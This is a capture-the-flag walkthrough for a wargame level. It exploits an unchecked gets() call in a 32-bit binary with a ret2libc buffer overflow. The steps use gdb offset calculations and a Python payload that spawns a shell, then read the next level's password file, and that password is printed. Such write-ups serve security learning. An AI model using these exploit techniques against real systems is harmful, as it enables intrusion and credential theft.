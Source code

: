 ## WALKTHROUGH - LEVEL04

---

When we look at the binary, we can see that there a gets call that is not protected. So we can assume we can overwrite the main return address:

```
 8048757:	8d 44 24 20          	lea    eax,[esp+0x20]
 804875b:	89 04 24             	mov    DWORD PTR [esp],eax
 804875e:	e8 4d fd ff ff       	call   80484b0 <gets@plt>
```

To do that, we need to calculate **the number of bytes** we'll need to **put in the buffer** to **have access to the return address**. We're going to use **gdb**, and set a **breakpoint after the sub** to **get the addresses of $ebp and $esp**, and make our calcul:

```
 80486d0:	81 ec b0 00 00 00    	sub    esp,0xb0
 80486d6:	e8 75 fe ff ff       	call   8048550 <fork@plt>
```

```gdb
Breakpoint 1, 0x080486db in main ()
(gdb) info reg $esp $ebp
esp            0xffffd560	0xffffd560
ebp            0xffffd618	0xffffd618
(gdb) p/x 0xffffd560+0x20
$2 = 0xffffd580
(gdb) p 0xffffd618-0xffffd580+0x4
$4 = 156
```

We can then **overwrite EIP** after we write **156 bytes** in the buffer.

We will use a **Ret2libc attack** to give us a shell, so we need to find the address of the **system** function and the address of a string that contains **"/bin/sh"**.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc mappings
[...]
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
    [...]
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
    [...]

(gdb) find 0xf7e2c000, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Now we need to pass everything to the stack, so the payload will be:

**"A"\*156 + system address + system return address + system parameters**

```sh
level04@OverRide:~$ chmod 777 .
level04@OverRide:~$ python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7"'  > payload
level04@OverRide:~$ cat payload - | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
